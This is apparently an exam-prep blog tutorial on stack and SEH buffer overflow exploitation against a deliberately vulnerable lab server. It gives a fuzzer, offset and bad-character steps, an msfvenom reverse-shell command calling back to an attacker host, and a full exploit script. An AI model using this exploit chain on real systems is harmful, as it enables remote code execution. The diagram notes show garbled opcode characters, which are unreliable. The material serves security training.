




Memory corruption vulnerabilities, specifically buffer overflows, represent the defining boundary between script operators and true offensive security researchers. In the **eCPPT (eLearnSecurity Certified Professional Penetration Tester)** examination, exploit development is not a theoretical multiple-choice exercise; you are tasked with identifying memory corruption bugs, calculating precise offsets, auditing byte arrays, and crafting reliable, weaponized custom exploits.

In this deep dive, we walk through the end-to-end engineering methodology for classic 32-bit **Stack-Based Buffer Overflows**, followed by an architectural dissection of Windows **Structured Exception Handling (SEH) Overflows**.

---

### Series Navigation

| **Previous Part** | **Current Part** | **Next Part** |
| :---: | :---: | :---: |
| [Part 1: System Security & x86 Assembly](/posts/ecppt-v3-part-1-system-security-x86-assembly/) | **Part 2: Exploit Development: Stack & SEH Overflows** | [Part 3: Network Penetration Testing & MITM](/posts/ecppt-v3-part-3-network-penetration-testing/) |

---

## Key Takeaways

* **The 6-Step Exploitation Lifecycle**: Reliable stack-based exploitation follows an invariant engineering pipeline: **Spike & Fuzz** -> **Find the Exact Offset** -> **Verify EIP Control** -> **Identify Bad Characters** -> **Locate a Return Gadget (`JMP ESP`)** -> **Generate & Align Shellcode with NOP Sleds**.
* **De Bruijn Cyclic Patterns**: Rather than guessing byte offsets, we use cyclic non-repeating alphanumeric sequences generated via `msf-pattern_create` and evaluated via `msf-pattern_offset` to mathematically pinpoint the exact distance to `EIP`.
* **Bad Character Elimination**: Vulnerable C functions (such as `strcpy` or `sprintf`) treat specific byte values (such as `\x00`, `\x0a`, `\x0d`) as terminators or delimiters, truncating the payload. Using `mona.py`, we audit the entire `\x01` to `\xff` byte spectrum in memory against a pristine reference table.
* **Structured Exception Handling (SEH) Overwriting**: When stack canaries or buffer limitations prevent standard `EIP` returns, we overflow the SEH linked list on the stack, corrupting the `nSEH` (Next SEH) record and the `SEH Handler` pointer. We pivot execution using a `POP POP RET` gadget followed by a 6-byte short jump (`\xeb\x06\x90\x90`).
* **Modern OS Mitigations**: Modern defenses include **Data Execution Prevention (DEP/NX)**, **Address Space Layout Randomization (ASLR)**, **SafeSEH**, and compiler stack cookies (`/GS`).

---

## 1. Mechanics of a Stack-Based Buffer Overflow

A stack-based buffer overflow occurs when a program copies user-controlled data into a fixed-size buffer allocated on the call stack without performing boundary bounds checking. Functions such as `strcpy()`, `strcat()`, `gets()`, and `scanf()` read until a null terminator (`\x00`) is encountered, blindly overwriting adjacent memory addresses.



When the vulnerable function completes its execution, it executes the standard epilogue:
```nasm
mov esp, ebp
pop ebp
ret           ; Pops the top of the stack into EIP
```
Because the attacker has overwritten the `Saved EIP` position on the stack, the CPU pops the attacker's value directly into `EIP`, granting complete control over the program's execution flow.

---

## 2. Step-by-Step Practical Exploitation Lifecycle

### Step 1: Network Fuzzing (Spiking & Crashing)

We write an automated Python 3 socket script that establishes a TCP connection to the target service, sends incrementally larger data buffers, and monitors for application unresponsiveness or crashes:

```python
#!/usr/bin/env python3
import socket
import sys
import time

target_ip = "192.168.1.100"
target_port = 9999

buffer_size = 100
step = 100

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(5.0)
        s.connect((target_ip, target_port))
        
        # Receive application service banner
        banner = s.recv(1024)
        print(f"[*] Sending fuzzing buffer of {buffer_size} bytes...")
        
        # Inject test payload into target command (e.g. TRUN command)
        payload = b"TRUN ." + (b"A" * buffer_size) + b"\r\n"
        s.send(payload)
        s.close()
        
        buffer_size += step
        time.sleep(1)
    except Exception as e:
        print(f"[+] Service crashed at approximately {buffer_size - step} bytes!")
        sys.exit(0)
```

---

### Step 2: Locating the Exact Offset to EIP

Assuming the application crashed at approximately 2400 bytes, we generate a unique cyclic De Bruijn pattern using Metasploit's pattern tools:

```bash
msf-pattern_create -l 2400
```

We insert the resulting 2400-byte pattern into our exploit script and transmit it to the application while running under **x32dbg** or **Immunity Debugger**. When the program crashes, we inspect the exact value stored in the `EIP` register (for example, `386F4337`).

We pass this value to `msf-pattern_offset`:

```bash
msf-pattern_offset -q 386F4337 -l 2400
# Output: [*] Exact match at offset 2003
```

---

### Step 3: Verifying Total EIP Control

We verify the offset by constructing a payload of exactly 2003 "A"s (`\x41`), followed by 4 "B"s (`\x42\x42\x42\x42`), followed by trailing "C"s (`\x43`):

```python
offset = 2003
payload = b"A" * offset + b"B" * 4 + b"C" * 300
```

Upon sending this payload:
* The register `EIP` must contain exactly `42424242`.
* The register `ESP` must point directly to the beginning of the "C" buffer.

---

### Step 4: Identifying and Eliminating Bad Characters

Certain bytes cannot be processed by string manipulation functions:
* `\x00` (Null Byte): String terminator in C.
* `\x0a` (Line Feed / `\n`): Terminates input in network daemons.
* `\x0d` (Carriage Return / `\r`): Line endings in HTTP/FTP protocols.

We use **mona.py** inside the debugger:

1. **Generate the reference byte array (excluding null byte `\x00`)**:
   ```text
   !mona bytearray -b "\x00"
   ```

2. **Transmit the entire byte array from `\x01` to `\xff` in the payload**:
   ```python
   all_bytes = (
       b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
       b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
       # ... through \xff
   )
   payload = b"A" * 2003 + b"B" * 4 + all_bytes
   ```

3. **Compare stack memory against the reference byte array**:
   ```text
   !mona compare -f C:\mona\bytearray.bin -a <ESP_Address>
   ```

Mona analyzes every byte in sequence. If a byte is corrupted or truncated, it is flagged as bad. We remove it from our script and regenerate the byte array until Mona reports: `Status: Unmodified`.

---

### Step 5: Locating a Reliable JMP ESP Return Gadget

Because stack memory addresses change between executions, hardcoding an `ESP` address directly into `EIP` will cause exploit failures. Instead, we find a static `JMP ESP` (`\xff\xe4`) or `CALL ESP` instruction inside an unmitigated application DLL (ASLR = False, SafeSEH = False, Rebase = False).

We use Mona to search across loaded modules:

```text
!mona jmp -r esp -cpb "\x00\x0a\x0d"
```

Suppose Mona discovers a clean pointer at `0x625011AF` in `essfunc.dll`. In our exploit script, we pack this address in Little-Endian format: `b"\xaf\x11\x50\x62"`.

---

### Step 6: Generating Shellcode and NOP Sled Alignment

We generate an encoded reverse shell payload using `msfvenom`, strictly filtering out all identified bad characters:

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=192.168.1.50 \
         LPORT=4444 \
         -b "\x00\x0a\x0d" \
         -f python -v shellcode
```

Because `msfvenom` decoders require several instructions to unpack the payload in memory, we place a **NOP Sled** (`\x90` * 32) immediately prior to the shellcode to prevent execution corruption:

```python
#!/usr/bin/env python3
import socket

target_ip = "192.168.1.100"
target_port = 9999

offset = 2003
jmp_esp = b"\xaf\x11\x50\x62"   # 0x625011AF (essfunc.dll - JMP ESP)
nop_sled = b"\x90" * 32

# msfvenom generated windows/shell_reverse_tcp
shellcode = (
    b"\xba\x87\x3a\x9d\x92\xd9\xeb\xd9\x74\x24\xf4\x5d\x33\xc9"
    b"\xb1\x52\x31\x55\x12\x83\xc5\x04\x03\xd4\x6d\x41\xbf\x34"
    # ... remaining shellcode bytes ...
)

payload = b"TRUN ." + (b"A" * offset) + jmp_esp + nop_sled + shellcode + b"\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))
s.send(payload)
s.close()
print("[+] Exploit transmitted! Check your Netcat listener on port 4444.")
```

---

## 3. Structured Exception Handling (SEH) Overflows

**Structured Exception Handling (SEH)** is Windows' native architectural framework for handling hardware and software exceptions (such as access violations and divide-by-zero errors).

SEH records are organized as a singly linked list stored directly on the stack. Each `EXCEPTION_REGISTRATION_RECORD` comprises two 4-byte fields:
1. **`nSEH` (Next SEH Pointer)**: A pointer referencing the next SEH record in the chain.
2. **`SEH Handler`**: The virtual memory pointer to the exception handling callback function.



### The POP POP RET Technique:

When Windows triggers an exception, it establishes an exception context frame and invokes the handler. At the moment the handler is called, `[ESP + 8]` points directly back to the `nSEH` record on our stack!

1. A `POP` instruction removes 4 bytes from the top of the stack.
2. A second `POP` instruction removes another 4 bytes.
3. The `RET` instruction pops `[ESP + 8]` directly into `EIP`, returning execution to the memory address of `nSEH`.

### The Short Jump (`\xeb\x06`):
Because `SEH Handler` is located immediately after `nSEH` on the stack (a distance of 4 bytes), executing shellcode directly inside `nSEH` would crash as soon as it attempts to execute the `SEH Handler` address as code. Therefore, we place a 2-byte short unconditional jump instruction in `nSEH`:

```nasm
jmp $+8           ; Opcode: \xeb\x06 (Jump 6 bytes forward)
nop               ; \x90
nop               ; \x90
```

This neatly hops over the 4-byte `SEH Handler` dword, landing safely into our NOP sled and shellcode.

---

## 4. Modern Mitigation Mechanisms & Bypass Strategies

| Mitigation | Mechanism | Primary Bypass Vector |
| :--- | :--- | :--- |
| **DEP / NX (Data Execution Prevention)** | CPU marks the stack and heap pages as non-executable via the NX bit. | **ROP (Return-Oriented Programming)**: Chaining existing code gadgets to invoke `VirtualProtect()` or `VirtualAlloc()`. |
| **ASLR (Address Space Layout Randomization)** | Randomizes base addresses of executables, DLLs, stack, and heap on every reboot. | Targeting non-ASLR third-party modules or utilizing an **Information Disclosure / Memory Leak** vulnerability. |
| **SafeSEH** | Maintains a validated static table of approved exception handlers in the PE header. | Sourcing `POP POP RET` gadgets from non-SafeSEH modules or utilizing heap-based pivots. |
| **Stack Canaries (/GS)** | Inserts a pseudo-random compiler cookie before `Saved EBP` and verifies integrity prior to `RET`. | **SEH Overflows** (the exception handler is executed before the canary check runs), or leaking the cookie via format strings. |

---

---

## Visual Architecture: The Buffer Overflow & SEH Exploitation Lifecycle

The following diagram maps out the complete 4-stage binary exploitation pipeline alongside the exact memory mechanics of an SEH chain overwrite:



### Key Architectural Observations from the Diagram:
1. **The Short Jump Bridge**: Notice how `nSEH` is overwritten with `됐`. The opcode `ë` instructs the CPU to take an unconditional relative short jump of exactly 6 bytes forward. This cleanly vaults over the 4-byte `SEH Handler` slot (which contains code pointers, not executable instructions), landing squarely into the NOP sled.
2. **SafeSEH Bypass Logic**: The `POP POP RET` address must be sourced from a binary module compiled without the `/SAFESEH` flag. If the target application attempts to dispatch an exception to a handler address not cataloged in the PE header's SafeSEH table, Windows immediately terminates the process.

---

## Attack Chain Interconnection: Weaponizing Memory Corruption for Initial Access

In an enterprise penetration test, exploit development is not an academic puzzle; it is a critical initial access vector:



* **Connection to Part 3 (Network Penetration Testing)**: During network service enumeration, you will discover unauthenticated proprietary daemons or legacy management services. Part 2 provides the exact fuzzing and exploitation toolkit to turn an open network port into an interactive shell.
* **Connection to Part 5 (Privilege Escalation)**: Network daemons frequently run under low-privileged service accounts (`LOCAL SERVICE`). Once your buffer overflow shell checks in, you immediately pivot to the Windows Privilege Escalation Playbook in Part 5.

---

## Categorized References & Authoritative Sources

### 1. Authoritative Exploit Writing Manuals
* **Corelan Team Exploit Writing Tutorials**: Parts 1 through 10 by Peter Van Eeckhoutte. [https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/).
* **Mona.py Official Repository & Command Reference**: [https://github.com/corelan/mona](https://github.com/corelan/mona).
* **Offensive Security: Exploit Development Prerequisites & Guides**: [https://www.offsec.com/](https://www.offsec.com/).

### 2. Practice Vulnerable Applications & Labs
* **Vulnserver Project**: A TCP-based server with intentionally vulnerable commands by Stephen Bradshaw. [https://www.thegreycorner.com/p/vulnserver.html](https://www.thegreycorner.com/p/vulnserver.html).
* **Exploit Database (Exploit-DB)**: Verified memory corruption exploits and shellcode repository. [https://www.exploit-db.com/](https://www.exploit-db.com/).
* **TryHackMe: Buffer Overflow Prep**: Dedicated hands-on OSCP/eCPPT practice room. [https://tryhackme.com/room/bufferoverflowprep](https://tryhackme.com/room/bufferoverflowprep).

### 3. MITRE ATT&CK Enterprise Techniques
* **T1203**: Exploitation for Client Execution. [https://attack.mitre.org/techniques/T1203/](https://attack.mitre.org/techniques/T1203/).
* **T1059**: Command and Scripting Interpreter. [https://attack.mitre.org/techniques/T1059/](https://attack.mitre.org/techniques/T1059/).

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
